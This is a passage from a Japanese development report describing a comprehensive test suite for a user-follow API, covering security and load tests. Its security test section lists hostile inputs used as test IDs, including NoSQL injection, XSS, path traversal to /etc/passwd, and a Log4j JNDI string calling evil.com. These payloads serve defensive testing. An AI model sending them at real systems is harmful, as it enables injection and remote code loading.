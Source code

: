 ## 8. 包括テストの作成と検証

### 8.1 テストスクリプト概要

**ファイル**: `/test-follow-comprehensive-auth.js`

**包括テスト範囲**:
- 単体テスト: 各APIメソッドの個別機能検証
- 結合テスト: 認証フロー + API連携
- E2Eテスト: ブラウザ操作シミュレーション
- セキュリティテスト: 認証回避試行、悪意のある入力
- パフォーマンステスト: 大量リクエスト処理
- 回帰テスト: 500→404修正の検証

### 8.2 セキュリティテストケース

```javascript
// セキュリティテスト: SQLインジェクション類似攻撃
const maliciousIds = [
  '$ne',                           // NoSQLインジェクション
  '{"$ne": null}',                // JSON形式攻撃
  '<script>alert("xss")</script>', // XSS攻撃
  '../../etc/passwd',              // パストラバーサル
  'javascript:alert(1)',           // JavaScript実行
  '${jndi:ldap://evil.com/a}'     // Log4j攻撃パターン
];

for (const maliciousId of maliciousIds) {
  const response = await makeRequest('GET', `/api/users/${maliciousId}/follow`, {
    'Cookie': sessionToken
  });
  
  // 期待値: status: 400, 適切なエラーハンドリング
  // 実際の攻撃が成功しないことを確認
}
```

### 8.3 パフォーマンステスト

```javascript
// 負荷テスト: 同時リクエスト処理
async function performanceTest() {
  const concurrentRequests = 50;
  const testUserId = '507f1f77bcf86cd799439011';
  
  const startTime = Date.now();
  
  const promises = Array(concurrentRequests).fill(0).map(() => 
    makeRequest('GET', `/api/users/${testUserId}/follow`, {
      'Cookie': sessionToken
    })
  );
  
  const results = await Promise.all(promises);
  const endTime = Date.now();
  
  const duration = endTime - startTime;
  const avgResponseTime = duration / concurrentRequests;
  
  return {
    duration,
    avgResponseTime,
    successCount: results.filter(r => r.status === 404).length,
    totalRequests: concurrentRequests
```